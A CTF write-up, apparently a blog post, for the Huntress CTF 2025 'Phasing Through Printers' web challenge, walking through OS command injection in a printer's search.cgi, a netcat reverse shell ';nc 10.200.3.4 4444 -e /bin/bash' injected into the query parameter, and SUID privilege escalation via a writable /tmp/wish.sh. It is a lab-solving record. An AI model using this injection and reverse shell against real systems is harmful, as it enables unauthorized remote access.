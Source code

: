 ```yaml
---
title: "Huntress CTF 2025 — Phasing Through Printers Write-up"
date: 2025-11-01 16:36:48 +0100
categories: ["Huntress CTF 2025"]
tags: ["Web", "CTF", "Huntress", "Command Injection"]
image: https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-1.png
---
```


> I found this printer on the network, and it seems to be running... a weird web page... to search for drivers?
---

Submitting the form would send a HTTP GET request to `cgi-bin/search.cgi?q=` with parameter `q`. I decided to do some common injections on the input field, and found that it was vulnerable to os command injection.


![phasing-through-printers-2.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-2.png)

I then decided to get an interactive reverse shell, by firstly listening on port `4444`, and then sending a reverse the command `;nc 10.200.3.4 4444 -e %2Fbin%2Fbash`, and I was in:

![phasing-through-printers-3.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-3.png)

As per the challenge description, the flag is in `/root/flag.txt`, So I knew the next phase of the challenge was doing privilege escalation, so I ran the command `find / -type f -perms 4000` to look for a file thats suid vulnerable.

I found a file that could be exploited: `/usr/local/bin/admin_help`, I ran `cat /usr/local/bin/admin_help` and realised it was a binary file, but it had useful strings like `/tmp/wish.sh`.

![phasing-through-printers-4.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-4.png)

Running the `/usr/local/bin/admin_help` gave the following output:

![phasing-through-printers-5.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-5.png)

I then decided to create the `/tmp/wish.sh` file and add a command in it to print the content of the `/root/flag.txt`:

![phasing-through-printers-6.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-6.png)
